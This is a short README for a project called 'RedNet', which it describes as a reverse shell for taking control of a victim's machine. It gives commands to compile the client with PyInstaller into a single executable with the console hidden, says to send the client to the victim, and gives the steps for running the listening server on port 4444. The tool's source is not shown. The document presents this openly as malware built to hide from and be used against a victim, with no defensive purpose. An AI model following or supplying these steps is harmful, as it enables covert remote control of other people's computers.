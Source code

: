 # **RedNet**

### A reverse shell in which you can take control of the victim's machine.
> Is under development

## Transforming py to exe

### If python is installed, on console, write
- ``` pip install pyinstaller ``` **or** ``` python -m pip install pyinstaller ``` **| Its install the pyinstaller**
- ``` pyinstaller --onefile --windowed client.py ``` 
> --onefile | **Generate a single file**

> --windowed | **Hide the console**

> Send client.py to the victim.

## Listen port 4444
- ``` python server.py ``` **on 'IP:' write 0.0.0.0 and on 'PORT:' the port to listen ex, 4444**



### 👷‍ Building...
